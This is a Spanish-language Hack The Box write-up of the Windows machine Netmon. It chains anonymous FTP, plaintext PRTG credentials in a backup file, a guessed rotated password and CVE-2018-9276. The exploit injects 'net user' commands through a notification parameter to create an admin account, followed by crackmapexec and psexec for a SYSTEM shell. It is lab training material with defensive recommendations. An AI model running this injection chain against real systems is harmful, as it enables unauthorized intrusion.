# Netmon — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Windows  
**Autor de la máquina:** mrb3n  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · FTP anónimo · Enumeración de ficheros · PRTG Network Monitor · Análisis de backups · Reutilización de credenciales · CVE-2018-9276 · Command Injection · crackmapexec · psexec

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — FTP anónimo y credenciales PRTG](#3-acceso-inicial--ftp-anónimo-y-credenciales-prtg)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.X.X
```



Salida obtenida:

```text
64 bytes from 10.129.X.X: icmp_seq=1 ttl=127 time=32.4 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=127` es revelador: los sistemas Windows inician el TTL en 128, por lo que un valor cercano (127 tras un salto de red) indica que estamos frente a una máquina **Windows**.

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.X.X -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
```

> 💡 El perfil de puertos es típico de un servidor Windows: **FTP** (21), un servicio **web** (80), la tríada **RPC/NetBIOS/SMB** (135, 139, 445) y **WinRM** (5985, 47001) para administración remota. La combinación de FTP y un servicio web en el puerto 80 marca los dos vectores prioritarios a investigar.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo más profundo con detección de versiones y scripts NSE únicamente sobre ellos.

```bash
nmap -sCV -T5 -p21,80,135,139,445,5985,47001 10.129.X.X -oN Targeted
```



Salida relevante:

```text
21/tcp   open  ftp     Microsoft ftpd
80/tcp   open  http    Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-title: Welcome | PRTG Network Monitor (NETMON)
135/tcp  open  msrpc   Microsoft Windows RPC
139/tcp  open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

> 💡 La huella del puerto 80 es la pieza clave: el servidor se identifica como `Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)`. **PRTG Network Monitor** es una solución comercial de monitorización de red, y el número de versión `18.1.37.13946` —de principios de 2018— anticipa que estamos ante una instalación desactualizada con vulnerabilidades públicas conocidas.

---

## 2. Enumeración del servicio web

Accedemos desde el navegador al puerto `80`.

```text
http://10.129.X.X/index.htm
```



El servicio web aloja el panel de inicio de sesión de **PRTG Network Monitor**, identificado con el nombre de instancia `NETMON`. PRTG es una plataforma de monitorización de infraestructuras (red, servidores, aplicaciones) ampliamente desplegada en entornos corporativos.

El panel solicita credenciales válidas (`Login Name` y `Password`) y, salvo configuración por defecto, no ofrece un acceso directo. No obstante, conocer la versión exacta y disponer de un segundo servicio expuesto —**FTP**— nos abre una vía alternativa para obtener esas credenciales sin necesidad de atacar el formulario.

> 💡 La estrategia correcta ante un panel autenticado no siempre es atacarlo de frente. Identificar el producto y su versión permite **buscar credenciales en otros servicios** del mismo host. En este caso, PRTG almacena su configuración —incluidas contraseñas— en ficheros dentro del sistema, y el FTP anónimo nos dará acceso a ellos.

---

## 3. Acceso inicial — FTP anónimo y credenciales PRTG

### Acceso FTP anónimo

Probamos a conectar al servicio FTP del puerto 21 utilizando la cuenta `anonymous`, una configuración insegura habitual en servidores mal endurecidos.

```bash
ftp 10.129.X.X
# Name: anonymous
# Password: (vacía)
```



El servidor responde con `331 Anonymous access allowed` y, tras enviar una contraseña vacía, `230 User logged in`. El acceso anónimo está habilitado.

Más relevante aún: el FTP no está enjaulado (*chroot*) en un directorio aislado. El primer `ls` muestra directorios del sistema —`Program Files`, `Users`, `Windows`, `inetpub`—, lo que confirma que estamos navegando directamente sobre la **raíz del disco `C:\`**.

> 💡 Un FTP anónimo sin *chroot* equivale a conceder lectura del sistema de ficheros completo a cualquier usuario no autenticado. A partir de aquí, cualquier fichero legible por el servicio FTP queda expuesto.

---

### Enumeración del sistema de ficheros

Listamos en detalle la raíz del sistema para confirmar el alcance del acceso.

```bash
ftp> ls -la
```



Se confirma la estructura completa de una unidad `C:\` de Windows. El objetivo ahora es localizar la configuración de PRTG, que el producto almacena dentro de `ProgramData`. Navegamos hacia esa ruta.

```bash
ftp> cd ProgramData
ftp> ls
```



Dentro de `ProgramData` aparece el directorio `Paessler` —el fabricante de PRTG—. Continuamos descendiendo.

```bash
ftp> cd Paessler
ftp> ls
```



El directorio `Paessler` contiene la carpeta `PRTG Network Monitor`, donde reside toda la configuración operativa del producto.

---

### Localización de las copias de seguridad

Entramos en el directorio de PRTG y listamos su contenido.

```bash
ftp> cd "PRTG Network Monitor"
ftp> ls
```



PRTG guarda su configuración en ficheros `.dat` y mantiene **copias de seguridad automáticas**. Encontramos tres ficheros de interés:

| Fichero | Descripción |
|---|---|
| `PRTG Configuration.dat` | Configuración activa actual |
| `PRTG Configuration.old` | Copia anterior de la configuración |
| `PRTG Configuration.old.bak` | Copia de seguridad más antigua |

El fichero `PRTG Configuration.dat` activo suele almacenar las contraseñas en formato ofuscado. Sin embargo, las versiones antiguas de PRTG escribían las credenciales **en texto claro** dentro de comentarios del fichero. El candidato ideal es la copia más antigua: `PRTG Configuration.old.bak`.

> 💡 Los ficheros de respaldo son un objetivo recurrente en pentesting. Mientras el fichero activo puede haber sido actualizado y saneado, las copias antiguas conservan a menudo configuraciones —y secretos— de versiones previas del software.

---

### Descarga del backup

Descargamos la copia de seguridad a nuestra máquina atacante.

```bash
ftp> get "PRTG Configuration.old.bak"
```



La transferencia se completa correctamente (`226 Transfer complete`). Ya disponemos del fichero de configuración antiguo de PRTG en local para analizarlo.

---

### Extracción de credenciales

Inspeccionamos el contenido del fichero descargado en busca de credenciales. La configuración de PRTG es un XML; buscamos el bloque `<dbcredentials>`.

```bash
cat "PRTG Configuration.old.bak" | grep -i -A3 "dbcredentials\|dbpassword"
```



Dentro del nodo `<dbpassword>` encontramos un comentario que delata tanto el usuario como la contraseña en **texto plano**:

```xml
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
</dbpassword>
```

Obtenemos así un par de credenciales:

```text
Usuario: prtgadmin
Contraseña: PrTg@dmin2018
```

> 💡 Almacenar contraseñas en texto claro dentro de ficheros de configuración —y, peor aún, en comentarios— es un fallo grave. Combinado con el FTP anónimo, convierte una mala práctica de almacenamiento en un compromiso directo de las credenciales administrativas del producto.

---

### Credenciales caducadas — del 2018 al 2019

Intentamos iniciar sesión en el panel PRTG con `prtgadmin:PrTg@dmin2018`, pero el acceso es **rechazado**. La causa es lógica: el fichero `PRTG Configuration.old.bak` es una copia de seguridad **antigua**, y la contraseña ha sido modificada desde entonces.

Sin embargo, la contraseña sigue un patrón evidente: una cadena base seguida del **año** (`2018`). Es una práctica de rotación de contraseñas extremadamente común y predecible. Probamos a incrementar el año:

```text
Usuario: prtgadmin
Contraseña: PrTg@dmin2019
```

Esta vez el acceso es **válido**. La contraseña simplemente se actualizó de `2018` a `2019` manteniendo intacta la base.



Accedemos al panel como **PRTG System Administrator**, con control total sobre la consola de monitorización.

> 💡 Las contraseñas basadas en patrones (`Base + Año`, `Base + Mes`, `Empresa123`) anulan en la práctica cualquier política de rotación: si un atacante obtiene una versión antigua, deducir la actual es trivial. La rotación de credenciales solo es efectiva si la nueva contraseña es **completamente independiente** de la anterior.

---

## 4. Obtención de shell

### CVE-2018-9276 — Inyección de comandos en PRTG

La versión instalada (`18.1.37.13946`) es vulnerable a **CVE-2018-9276**, una vulnerabilidad de **inyección de comandos autenticada** en la interfaz de administración de PRTG Network Monitor (versiones anteriores a la 18.2.39).

El fallo reside en el sistema de **notificaciones**: PRTG permite definir notificaciones del tipo *"Execute Program"*, que ejecutan un script al dispararse una alerta. El parámetro que se pasa a ese script **no se sanea**, por lo que es posible inyectar comandos arbitrarios. Como el servicio PRTG corre con privilegios de **SYSTEM**, los comandos inyectados se ejecutan con el máximo nivel de privilegio del sistema.

> 💡 Referencia técnica del fallo: `https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/`

---

### Navegación hasta las Notificaciones

Desde el panel, accedemos a la sección de administración: **Setup → Account Settings → Notifications**.

```text
Setup  →  Account Settings
```



Dentro de *Account Settings*, seleccionamos la pestaña **Notifications**, que lista las notificaciones configuradas y ofrece el botón **Add new notification**.



---

### Creación de la notificación con inyección de comandos

Creamos una notificación nueva y activamos la opción **Execute Program**. En el campo `Program File` seleccionamos uno de los scripts de demostración con extensión `.ps1` (`Demo exe notification - outfile.ps1`).

La clave está en el campo **Parameter**. El script `.ps1` ejecuta PowerShell, y todo lo que escribamos en este parámetro se pasa a la consola. Usando el carácter de tubería `|` y el separador `;` encadenamos nuestros propios comandos:

```powershell
abc.txt | net user arabot Temporal01! /add ; net localgroup administrators arabot /add
```



### Desglose del payload

| Fragmento | Función |
|---|---|
| `abc.txt` | Argumento ficticio esperado por el script `.ps1` |
| `\|` | Cierra el argumento y encadena un nuevo comando |
| `net user arabot Temporal01! /add` | Crea el usuario local `arabot` con contraseña `Temporal01!` |
| `;` | Separador de comandos en PowerShell |
| `net localgroup administrators arabot /add` | Añade `arabot` al grupo **Administradores** |

Guardamos la notificación. Al listarse, aparece como una nueva entrada activa en el panel de notificaciones.



> 💡 En lugar de lanzar una *reverse shell* —que podría ser bloqueada por el firewall de salida—, optamos por **crear una cuenta administrativa local**. Es un vector más estable: nos garantiza acceso persistente y reutilizable a través de los servicios SMB/WinRM ya expuestos.

---

### Ejecución de la notificación

PRTG permite **disparar manualmente** una notificación para "probarla". Lanzamos la notificación recién creada, lo que fuerza la ejecución del script `.ps1` —y, con él, nuestros comandos inyectados—.



El panel confirma que la notificación se ha encolado y ejecutado (`EXE notification is queued up`). En segundo plano, el servicio PRTG —corriendo como `SYSTEM`— acaba de crear el usuario `arabot` y de añadirlo al grupo de administradores.

---

### Verificación con crackmapexec

Antes de intentar conectar, comprobamos que el usuario se ha creado correctamente validando las credenciales contra el servicio SMB.

```bash
crackmapexec smb 10.129.X.X -u 'arabot' -p 'Temporal01!'
```



Resultado:

```text
SMB  10.129.X.X  445  NETMON  [+] netmon\arabot:Temporal01! (Pwn3d!)
```

La etiqueta `(Pwn3d!)` de crackmapexec es definitiva: confirma que las credenciales son válidas **y** que el usuario tiene privilegios administrativos sobre la máquina. La inyección de comandos ha funcionado.

> 💡 `crackmapexec` es la navaja suiza del pentesting en entornos Windows/Active Directory. El indicador `Pwn3d!` señala que la cuenta puede ejecutar código de forma remota (admin local), distinguiéndolo de un simple acceso de lectura.

---

### Shell interactiva con psexec

Con una cuenta administrativa válida, utilizamos `psexec` de la suite **Impacket** para obtener una shell interactiva. La herramienta se apoya en SMB: sube un servicio al recurso `ADMIN$`, lo registra y lo ejecuta, devolviendo una consola remota.

```bash
impacket-psexec arabot:'Temporal01!'@10.129.X.X
```



`psexec` localiza el recurso `ADMIN$`, sube el binario del servicio, crea e inicia el servicio y nos entrega la consola. Comprobamos el usuario efectivo:

```cmd
whoami
```

Resultado:

```text
nt authority\system
```

> 💡 `psexec` no nos da una shell como `arabot`, sino directamente como `NT AUTHORITY\SYSTEM`. El motivo es que los servicios de Windows se ejecutan bajo la cuenta `SYSTEM`, y la técnica de `psexec` consiste precisamente en registrar y arrancar un servicio. Es la cuenta más privilegiada de Windows, equivalente a `root` en Linux.

✅ Compromiso total de la máquina.

---

## 5. Post-explotación y flags

Con privilegios de `SYSTEM`, disponemos de acceso sin restricciones a todo el sistema de ficheros. Solo queda localizar las flags.

### Flag de usuario

La flag de usuario se encuentra en el escritorio público del sistema:

```cmd
type C:\Users\Public\Desktop\user.txt
```



### Flag de root

La flag de administrador reside en el escritorio del usuario `Administrator`, una ubicación normalmente inaccesible que ahora podemos leer gracias a los privilegios de `SYSTEM`:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```



✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina demuestra cómo una cadena de configuraciones inseguras —ninguna de ellas un *exploit* sofisticado— conduce al compromiso total de un servidor Windows.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| FTP anónimo sin *chroot* | Puerto 21 | Lectura completa del disco `C:\` sin autenticación |
| Credenciales en texto claro | `PRTG Configuration.old.bak` | Exposición del usuario y contraseña administrativos |
| Contraseña basada en patrón (`Base+Año`) | Política de rotación de PRTG | Deducción trivial de la contraseña actual |
| PRTG desactualizado (CVE-2018-9276) | Panel de Notificaciones | Inyección de comandos autenticada |
| Servicio PRTG ejecutándose como SYSTEM | Windows | Escalada implícita a máximo privilegio |

---

## Recomendaciones defensivas

- Deshabilitar el acceso FTP anónimo y, si el servicio es necesario, enjaularlo (*chroot*) en un directorio aislado.
- Nunca almacenar contraseñas en texto claro en ficheros de configuración ni en comentarios.
- Restringir el acceso a los directorios de copias de seguridad y cifrar los ficheros de respaldo.
- Establecer contraseñas completamente independientes en cada rotación, evitando patrones predecibles (`Base+Año`, `Base+Mes`).
- Mantener PRTG Network Monitor actualizado a la última versión (≥ 18.2.39 para mitigar CVE-2018-9276).
- Ejecutar los servicios con cuentas de bajo privilegio en lugar de `SYSTEM` siempre que sea posible.
- Aplicar segmentación de red y limitar la exposición de los servicios de administración (FTP, SMB, WinRM).
- Monitorizar la creación de cuentas locales y las modificaciones del grupo de administradores.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
